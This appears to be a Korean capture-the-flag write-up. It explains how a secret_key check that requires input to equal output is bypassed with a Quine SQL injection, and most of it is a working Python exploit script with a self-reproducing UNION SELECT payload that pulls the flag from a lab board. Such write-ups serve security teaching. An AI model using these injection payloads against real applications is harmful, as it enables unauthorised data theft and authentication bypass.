

+ summary

Quine SQL Injection 취약점 기법을 통해, secret_key 우회

## 문제 풀이

해당 문제는, 쉬운 로직이면서도, 복잡한 상황입니다.

uuid, secret_key 값을 입력 받지만, uuid 값만 addslashes 함수를 통해 필터링이 되어 있고, secret_key만 안 되어 있습니다.

그러나, secret_key는 "입력 값"과 "결과 값"이 일치해야 한다는 조건이 존재합니다.



때문에, 이 과정을 우회하기 위해 입력 값 자기 자신을 우회하는 Quine SQL Injection을 시도합니다.

```py
from bs4 import BeautifulSoup
import requests
import re

def get_admin_uuid():
    result = requests.get(url)
    soup = BeautifulSoup(result.text, 'html.parser')

    return soup.find('td', {'class':'title-cell'}).find('a').attrs.get('href')

host = '172.24.218.139'
port = 10003

url = f"http://{host}:{port}"

read_board = get_admin_uuid()

payload = """'union select 1,2,3,(select content from board where title=0x736563726574),replace(replace('"union select 1,2,3,(select content from board where title=0x736563726574),replace(replace("$",char(34),char(39)),char(36),"$")#',char(34),char(39)),char(36),'"union select 1,2,3,(select content from board where title=0x736563726574),replace(replace("$",char(34),char(39)),char(36),"$")#')#"""

result = requests.get(url + read_board, params={
    'secret_key':payload
})
flag = re.findall("(flag{.*})", result.text)

assert len(flag) == 1

print(flag[0].strip())
```